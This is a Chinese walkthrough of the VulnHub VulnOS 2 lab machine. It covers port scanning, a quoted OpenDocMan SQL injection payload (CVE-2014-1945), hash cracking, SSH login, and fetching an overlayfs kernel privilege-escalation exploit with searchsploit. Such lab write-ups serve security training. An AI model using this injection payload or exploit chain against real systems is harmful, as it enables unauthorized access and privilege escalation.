 # VulnOS 2

下载地址：https://download.vulnhub.com/vulnos/VulnOSv2.7z

> 使用VirtualBox进行打开，调整USB为1.0才可以启动
>
> ![image-20220608110526109](../../.gitbook/assets/image-20220608110526109.png)

## 实战操作

扫描到靶场IP：`192.168.32.4`

![image-20220608112207179](../../.gitbook/assets/image-20220608112207179.png)

扫描对外开放端口

```
┌──(root㉿kali)-[~]
└─# nmap -sV -p1-65535 192.168.32.4
Starting Nmap 7.92 ( https://nmap.org ) at 2022-06-07 23:31 EDT
Nmap scan report for 192.168.32.4
Host is up (0.00014s latency).
Not shown: 65532 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.6 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http    Apache httpd 2.4.7 ((Ubuntu))
6667/tcp open  irc     ngircd
MAC Address: 08:00:27:57:4F:AA (Oracle VirtualBox virtual NIC)
Service Info: Host: irc.example.net; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.27 seconds
```

浏览器访问80端口

![image-20220608113431041](../../.gitbook/assets/image-20220608113431041.png)

跟随链接进入到一个公司的介绍页面

![image-20220608122933459](../../.gitbook/assets/image-20220608122933459.png)

来到documenttation页面，没有看到什么东西。

![image-20220608123025704](../../.gitbook/assets/image-20220608123025704.png)

全选页面就可以看到一个路径`/jabcd0cs`和登录密码`guest/guest`

![image-20220608123031066](../../.gitbook/assets/image-20220608123031066.png)

![image-20220608123342622](../../.gitbook/assets/image-20220608123342622.png)



登录进去之后

![image-20220608123409675](../../.gitbook/assets/image-20220608123409675.png)

寻找opendocman的利用漏洞

![image-20220608123641320](../../.gitbook/assets/image-20220608123641320.png)

找到SQL注入漏洞

```
1) SQL Injection in OpenDocMan: CVE-2014-1945

The vulnerability exists due to insufficient validation of "add_value" HTTP GET parameter in "/ajax_udf.php" script. A remote unauthenticated attacker can execute arbitrary SQL commands in application's database.

The exploitation example below displays version of the MySQL server:

http://[host]/ajax_udf.php?q=1&add_value=odm_user%20UNION%20SELECT%201,v
ersion%28%29,3,4,5,6,7,8,9
```

![image-20220608123954047](../../.gitbook/assets/image-20220608123954047.png)

使用sqlmap进行SQL注入检测

![image-20220608125828265](../../.gitbook/assets/image-20220608125828265.png)

找到webmin用户和密码哈希值。

![image-20220608133000077](../../.gitbook/assets/image-20220608133000077.png)

解密密码哈希值

![image-20220608133136910](../../.gitbook/assets/image-20220608133136910.png)

直接SSH登录

![image-20220608133214918](../../.gitbook/assets/image-20220608133214918.png)

查看内核版本

```
webmin@VulnOSv2:~$ uname -a
Linux VulnOSv2 3.13.0-24-generic #47-Ubuntu SMP Fri May 2 23:31:42 UTC 2014 i686 i686 i686 GNU/Linux
webmin@VulnOSv2:~$ cat /proc/version
Linux version 3.13.0-24-generic (buildd@komainu) (gcc version 4.8.2 (Ubuntu 4.8.2-19ubuntu1) ) #47-Ubuntu SMP Fri May 2 23:31:42 UTC 2014
webmin@VulnOSv2:~$ cat /etc/issue
### Welcome to VulnOSv2 ###

webmin@VulnOSv2:~$ cat /etc/*-release
DISTRIB_ID=Ubuntu
DISTRIB_RELEASE=14.04
DISTRIB_CODENAME=trusty
DISTRIB_DESCRIPTION="Ubuntu 14.04.4 LTS"
NAME="Ubuntu"
VERSION="14.04.4 LTS, Trusty Tahr"
ID=ubuntu
ID_LIKE=debian
PRETTY_NAME="Ubuntu 14.04.4 LTS"
VERSION_ID="14.04"
HOME_URL="http://www.ubuntu.com/"
SUPPORT_URL="http://help.ubuntu.com/"
BUG_REPORT_URL="http://bugs.launchpad.net/ubuntu/"

```

查看提权脚本

![image-20220608133528593](../../.gitbook/assets/image-20220608133528593.png)

复制EXP

```
┌──(root㉿kali)-[/tmp]
└─# searchsploit -m linux/local/37292.c
  Exploit: Linux Kernel 3.13.0 < 3.19 (Ubuntu 12.04/14.04/14.10/15.04) - 'overlayfs' Local Privilege Escalation
      URL: https://www.exploit-db.com/exploits/37292
     Path: /usr/share/exploitdb/exploits/linux/local/37292.c
File Type: C source, ASCII text, with very long lines (466)

Copied to: /tmp/37292.c

```

提权成功

![image-20220608133746321](../../.gitbook/assets/image-20220608133746321.png)

获取flag.txt内容

![image-20230208161214059](../../.gitbook/assets/image-20230208161214059.png)
